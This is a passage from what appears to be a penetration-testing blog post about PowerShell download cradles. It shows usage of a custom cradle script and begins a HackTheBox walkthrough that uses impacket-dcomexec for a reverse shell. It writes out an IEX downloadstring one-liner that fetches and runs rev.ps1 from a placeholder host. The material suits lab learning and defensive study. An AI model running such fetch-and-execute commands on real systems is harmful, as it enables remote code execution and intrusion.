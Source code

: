 
#### Example usage without logging: {#example-usage-without-logging}

```powershell

#Import Script
. .\Invoke-SecureDownloadCradle.ps1

#Run
Invoke-SecureDownloadCradle -Url "http://[IP]/[SCRIPT].ps1" -Verbose
```

-   {{< figure src="/ox-hugo/2024-11-12-100101_.png" >}}


#### Example usage with logging: {#example-usage-with-logging}

```powershell

#Import Script
. .\Invoke-SecureDownloadCradle.ps1

# Create Event Source
New-EventLog -LogName Application -Source "SecureDownloadCradle"

#Run
Invoke-SecureDownloadCradle -Url "http://[IP]/[SCRIPT].ps1" -Verbose

# Read the logs
Get-WinEvent -LogName Application | Where-Object {$_.ProviderName -eq "SecureDownloadCradle"}
```

-   {{< figure src="/ox-hugo/2024-11-12-100912_.png" >}}

-   +Notes+: A custom user agent can also be passed:
    -   `-UserAgent "CompanyName/UpdateService"`


## Real-World Examples Of Download-Cradle Use In HackTheBox: {#real-world-examples-of-download-cradle-use-in-hackthebox}

-   I will often use download cradles on hack the box and here are some recent examples:


### Jab: Using a download cradle via `impacket-dcomexec` to get a reverse shell: {#jab-using-a-download-cradle-via-impacket-dcomexec-to-get-a-reverse-shell}

1.  Create the powershell cradle file:
    ```shell
    echo 'IEX (New-Object Net.Webclient).downloadstring("http://[ip]/rev.ps1")' >> cradle
    ```
